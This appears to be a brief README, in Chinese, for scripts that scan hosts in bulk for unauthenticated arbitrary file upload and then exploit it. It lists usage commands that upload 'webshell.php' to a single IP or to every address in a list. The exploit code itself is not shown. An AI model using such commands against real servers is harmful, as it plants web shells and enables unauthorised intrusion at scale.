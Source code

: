 # 批量检测未授权任意文件上传
用法：

检测

Usage: python3 nologin_upload.py -h 10.10.10.10

Usage: python3 nologin_upload.py -r ip.txt

利用

Usage: python3 nologin_upload_exp.py -h 10.10.10.10 -f webshell.php

Usage: python3 nologin_upload_exp.py -r ip.txt -f webshell.php

